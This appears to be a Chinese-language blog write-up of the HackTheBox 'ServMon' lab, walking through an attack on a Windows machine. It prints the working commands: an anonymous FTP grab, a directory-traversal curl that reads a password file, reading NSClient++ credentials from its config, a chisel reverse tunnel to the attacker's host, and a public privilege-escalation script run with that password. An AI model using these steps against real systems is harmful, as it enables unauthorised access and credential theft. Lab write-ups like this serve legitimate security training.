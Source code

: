```yaml
---
layout: post
title: "[HackTheBox] Servmon Writeup"
subtitle: "少數有防毒軟體的靶機，但我沒有做AV Evation嘿嘿"
date: 2024-01-15
author: "Peter"
header-img: "img/post-bg-hack.jpg"
tags: [資安, writeup, hackthebox]
---
```


# [Windows][HTB] ServMon

厄嗯，這台靶機是相對比較惱人的一台，在一開始的階段我們透過查找可以找到一些文件表示密碼的位子，接著透過既有的web server的漏洞就可以拿到ssh的用戶密碼，可惜的是在提權階段因為防毒軟體的關係拿到反向的shell是十分困難，這邊簡單地透過windows的type指令拿到了root hash，進一步拿到reverse shell的話需要去應對防毒軟體，就不在這邊多做敘述。

<aside>
💡 包含所有系列的 writeup ，hackthebox 中所使用的本地ip與遠端ip會因為靶機的關係有所更動，請無視ip的變化。
</aside>

## Nmap Port Scan

```bash
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  06:35PM       <DIR>          Users
22/tcp   open  ssh           syn-ack ttl 127 OpenSSH for_Windows_8.0 (protocol 2.0)
80/tcp   open  http          syn-ack ttl 127
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
5666/tcp open  tcpwrapped    syn-ack ttl 127
6699/tcp open  napster?      syn-ack ttl 127
8443/tcp open  ssl/https-alt syn-ack ttl 127
```

省略了一些我個人覺得不太重要的資訊。這邊我們可以看到有ftp, ssh, smb, http, https，還有很奇怪的5666及6699。透過這個nmap我們並沒有看到一些特別奇怪的資訊，這些需要我們一個一個去找。

## FTP server enumeration

首先我們來看ftp，我們發現ftp是可以匿名登入的，透過匿名登入我們下載了一些資料，裡面包含了一些非常有價值的資訊。

```bash
# -m 代表著 -N -r -l inf --no-remove-listing，也就是下載所有檔案的意思， .listing 雖然有點惱人，但是-m是一個比較輕鬆的指令所以我都習慣直接這樣用

wget -m ftp://anonymous:anonymous@10.129.227.77
```

![Untitled](/img/in-post/servmon/Untitled1.png)

![Untitled](/img/in-post/servmon/Untitled.png)

在這邊我們可以看到幾個重點

1. Nadine把Nathan的 `Passwods.txt` 放在了桌面
2. NVMS的密碼被改過
3. NSClient的存取權限被限制
4. NVMS可以被外面存取
5. (可能) Passwords.txt 沒有被更新，還放在桌面

掌握了這些資訊，我們可以大致上判斷出

1. 密碼可能可以透過某些方法被存取
2. 有兩個web service，NVMS與NSClient
3. NVMS可能是漏洞，因為NSClient的存取權已經被限制

## NVMS Exploit

我們直接看打開的web service，跟我們上面猜測的一樣，port 80 跑的是 nvms ，而port 8443 跑的是 nsclient++。兩個服務我們雖然都可以碰到，但都沒有登入的密碼。

我們直接去查漏洞的話，發現[nvms有一個 Directory Traversal 的漏洞](https://www.exploit-db.com/exploits/48311)，這就有趣了，可以直接連結到我們上面的 Passwords.txt ，果不其然，我們可以簡單的看到密碼。

```bash
# 如果不用 --path-as-is 的話，curl會先處理url而會自動地把 ../ 去掉，這樣就達不成我們要的結果了
curl 'http://10.129.227.77/../../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt' --path-as-is
```

![Untitled](/img/in-post/servmon/Untitled2.png)

而後我們用crackmapexec去察看密碼歸屬的話，我們就成功拿到了 `nadine` 的帳號密碼，也成功地讓我們登入了ssh從而取得user hash。

![Untitled](/img/in-post/servmon/Untitled3.png)

![Untitled](/img/in-post/servmon/Untitled4.png)

## NSClient++ Privilege Escalation

接下來我們拿到user之後就要進到pe的階段，我們先看到8443運行著NSClient++但是我們沒有密碼，同時在上網搜尋的時候都說這是一個可以進行PE的漏洞，於是我們照著[網路上的說明](https://www.exploit-db.com/exploits/46802)進行，也成功地拿到了密碼。

```bash
type "c:\program files\nsclient++\nsclient.ini"
```

![Untitled](/img/in-post/servmon/Untitled5.png)

但我們發現，在我們遠端連線的時候沒辦法成功登入NSClient++，這也跟我們在FTP文件裡面看到的敘述相符，我們可以試著用 `chisel.exe` 做 Port Forwarding 到我們的主機上來。

![[https://10.129.227.77:8443/index.html#/settings](https://10.129.227.77:8443/index.html#/settings)](/img/in-post/servmon/Untitled6.png)

[https://10.129.227.77:8443/index.html#/settings](https://10.129.227.77:8443/index.html#/settings)

> NSClient++ 有點卡，要多F5幾次。

```bash
# local maching
/opt/chisel/chisel server -p 8081 --reverse
# target machine
.\chisel.exe client 10.10.14.14:8081 R:8443:127.0.0.1:8443
```

![[https://127.0.0.1:8443/index.html#/settings](https://127.0.0.1:8443/index.html#/settings)](/img/in-post/servmon/Untitled7.png)

[https://127.0.0.1:8443/index.html#/settings](https://127.0.0.1:8443/index.html#/settings)

接下來我們可以用 github 上面的腳本來跑，理論上也可以直接用 NSClient++ 來跑，但我發現設定有夠不人性化，用腳本跑簡單很多。我們這邊把 root.txt 移到桌面，就可以看到內容了。記得要等一下，因為是走排程。

[https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation](https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation)

```bash
python3 exploit.py 'type C:\\users\\administrator\\Desktop\\root.txt > c:\\proof.txt"' https://localhost:8443 ew2x6SsGTxjRwXOT
```

![Untitled](/img/in-post/servmon/Untitled8.png)

這個靶機就到這裡囉，至於防毒軟體有多機車，這邊就不做 AV Evasion 了，有興趣請參考網路上的各大 Writeup。


--- 

感謝閱讀，本篇文章同步發表於FB粉絲專頁[PP學習筆記](https://www.facebook.com/pplearningnote)